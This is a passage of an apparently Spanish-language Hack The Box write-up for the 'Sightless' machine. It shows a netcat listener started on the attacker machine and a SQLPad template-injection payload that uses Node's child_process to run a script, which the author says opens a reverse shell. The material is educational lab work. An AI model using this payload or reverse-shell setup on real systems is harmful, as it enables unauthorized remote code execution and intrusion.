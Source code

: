 B. Ponerse en escucha

Desde mi máquina atacante, configuro un listener usando netcat.

```terminal
/home/kali/Documents/htb/machines/sightless:-$ nc -nlvp 4321
	listening on [any] 4321 ...
```

C. Activar el exploit

Creo una segunda conexión maliciosa en Sqlpad.

* Connection name: exploit
* Driver: MySQL
* Database: Inserto el siguiente código

```javascript
{\{ process.mainModule.require('child_process').exec('/bin/bash /tmp/exploit.sh') }}
```
> Nota: Se debe eliminar la barra invertida `\`
{: .prompt-warning }

![](assets/img/htb-writeup-sightless/sightless1_6.png)

El payload ejecuta el script `/tmp/exploit.sh`, que inicia una conexión inversa a mi máquina atacante.

![](assets/img/htb-writeup-sightless/sightless1_7.png)
